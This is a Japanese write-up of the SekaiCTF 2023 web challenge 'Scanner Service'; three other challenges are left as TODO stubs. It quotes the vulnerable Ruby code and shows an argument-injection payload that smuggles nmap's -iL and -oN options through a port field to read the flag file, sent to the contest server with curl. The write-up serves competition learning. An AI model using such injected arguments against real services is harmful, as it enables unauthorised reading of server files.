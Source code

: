 # SekaiCTF 2023 Writeup {ignore=true}

SekaiCTF 2023（<https://ctftime.org/event/1923/>）に参加しました。  
土, 26 8月 2023, 01:00 JST — 月, 28 8月 2023, 01:00 JST

OnePaddingというチームで参加しましたが、問題が難しくて私は一問も解けなかったので、少しずつ復習します。

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [web/Scanner Service](#webscanner-service)
- [web/Frog-WAF](#webfrog-waf)
- [misc/I love this world](#misci-love-this-world)
- [misc/QR God](#miscqr-god)

<!-- /code_chunk_output -->

## web/Scanner Service

146 solves / 100 points

Rubyで書かれたアプリケーションで、入力した`ip:port`に対してnmapが実行される。

- src/app/controllers/scanner.rb

```rb:scanner.rb
<SNIP>
post '/' do
    input_service = escape_shell_input(params[:service])
    hostname, port = input_service.split ':', 2
    begin
      if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
      else
        @scan_result = "Invalid input detected, aborting scan!"
      end
    rescue Errno::ECONNREFUSED
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end

    erb :'index'
  end
<SNIP>
```

また、入力値に対して、エスケープ処理及び正しいip、portの形式かを確認している。

- src/app/helper/scanner_helper.rb

```rb:scanner_helper.rb
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end

# chatgpt code :-)
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end
```

正規表現でオクテットを見ているので、ipは正しい形式じゃないとダメそう。  
Rubyでは、input.to_iは先頭から数値部分のみを返すため、portは以下のような値でも通る。

```text
1337abcABC
```

後は、`nmap -p #{port} #{hostname}`のportにコマンドインジェクションするだけ。  
なのだが、使えそうなのは`=,/.!%09:+?%^[]~–`ここら辺のみ。（%09はタブ）

nmapのオプションを調べると、`-iL`でローカルのファイルを読み込むことができる。

- <https://nmap.org/book/man-briefoptions.html>

また、フラグファイルは`/flag-<32桁のランダム文字列>.txt`であるが、不明な文字は「?」を使うことで回避できる。（どこかのCTFでやってたのでこの挙動は知ってた。）
ローカルで実行すると、標準エラー出力ではあるが、ファイルの中身を出力することができる。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:11 UTC
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.10 seconds
```

後は、標準エラー出力の内容を標準出力に出せれば解ける。
（競技中はここまでで手詰まり。）  
nmapのオプションには、`-oN`があり、`/dev/stdout`を使うことで標準出力に全て出力することができるらしい。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt -oN /dev/stdout 2>/dev/null
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:22 UTC
# Nmap 7.92 scan initiated Tue Aug 29 13:22:08 2023 as: nmap -p 1337 -iL /flag-2e025061da544fe4e70bae0d6658a0f4.txt -oN /dev/stdout
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.02 seconds
# Nmap done at Tue Aug 29 13:22:08 2023 -- 0 IP addresses (0 hosts up) scanned in 0.02 seconds
```

- 解法

```bash
$ curl -X POST --data-binary 'service=127.0.0.1:1337%09-iL%09/flag-????????????????????????????????.txt%09-oN%09/dev/stdout' http://35.231.135.130:31759/ -s | grep SEKAI{
Failed to resolve "SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}".
```

- 余談

`if`が使えれば、`if  [ 1 ];  then  echo  CONDITION;  fi`のも使えるかなと思ったが使えなかった。
`!!`のようにコマンドの実行履歴を使えないかと思ったが、そもそも複数コマンド実行できないとダメな気がする。

## web/Frog-WAF

29 solves / 413 points

// TODO

## misc/I love this world

166 solves / 100 points

// TODO

## misc/QR God

13 solves / 484 points

// TODO
